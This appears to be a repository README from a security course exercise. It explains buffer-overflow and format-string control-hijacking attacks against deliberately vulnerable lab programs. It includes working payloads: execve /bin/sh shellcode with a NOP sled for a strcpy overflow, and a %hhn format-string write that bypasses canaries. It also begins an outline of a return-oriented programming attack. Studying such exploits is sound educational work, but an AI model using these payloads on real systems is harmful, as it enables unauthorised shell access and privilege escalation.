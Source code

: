 # Control Hijacking Attack
In this repository, I implemented some buffer overflow controlling hijacking attacks which all are described down below. You can find Executable Linkable Formats(ELF) of these
programs named "prog_vuln#" and corresponding inputs for each of them named "expoit#.sh" which were designed to overflow the buffers of program and rewrite some specific addresses
of the memory to change control flow of the program which will result in getting shell with sudo privileged.
## prog_vuln1
To perform this attack I used vulnerability of <b>strcpy()</b> function which does not check the length of strings before copy. As a result it will be possible to perform <b>buffer overflow</b> write some specific 
addresses in the stack and change the pointer to the start of shell code. You can see related commands in the following.
```
$(python -c 'print("\x90"*63 +
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x0
8\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "w"
*500 + "\x90\xf0\xff\xbf")')
```
## prog_vuln3
In this part there are some <b>canaries</b> (stack guard) in the address space of the program. So it isn't possible to overflow the program because all return addresses will be protected by these structures. To perform the attack I used <b>format stringing</b>. In this approach we exploit vulnerability of <b>printf()</b> function.   
We know that every time we use "%n"
in printf(), this function will write number of the bytes before this symbol at the top of stack. But It's not possible to enter these huge number of inputs to printf(), So I'll use "%hhn" that only writes the number of inputs in one byte of address which placed top of the stack. so we should sort all bytes of addresses which we want to write on and place the desired addressed in reverse order at the top of stack. you can see the designed input down below.
```
$(python -c
'print("\xb8\xfb\xff\xbf\xb7\xfb\xff\xbf\xb6\xfb\xff\xbf\xb5\xfb\xff\xbf\x9d\xfb\xff\xbf\xa4\xfb\xff\x
bf\xa0\xfb\xff\xbf\x9c\xfb\xff\xbf\xa1\xfb\xff\xbf\xa5\xfb\xff\xbf" + 160 * "w" + "%n%hhn%hhn" +
104 * "w" + "%hhn" + 11 * "w" + "%hhn" + 18 * "w" + "%hhn" + 35 * "w" + "%hhn" + 8 * "w" + "%hhn"
+ 64 * "w" +"%hhn" + 11 * "w" + "%hhn" + "%hhn" + 9 * "w")')
```
## prog_vuln4
In this part I used vulnerabilities of <b>scanf()</b> function which doesn't check whether input string match the space dedicated for it or not.  
In this program stack guards were deactivated but there is <b>NON-Executable Stack</b> protection. Since there is no canaries in the address space, we can change the return address of functions by causing overflow in the scanf() input. But unlike the prog_vuln1 because of NON-Executable Stack protection it's not possible to place the shell code in the scanf() input.  
To overcome this type of protection, I used <b>Return-oriented programming</b>. In this type of exploit we should find some suitable gadgets in the assembly code of the program and sort them to execute a shell code. In the below figure you can see arrangment of stack after we rewrite the return address of main with buffer overflow.



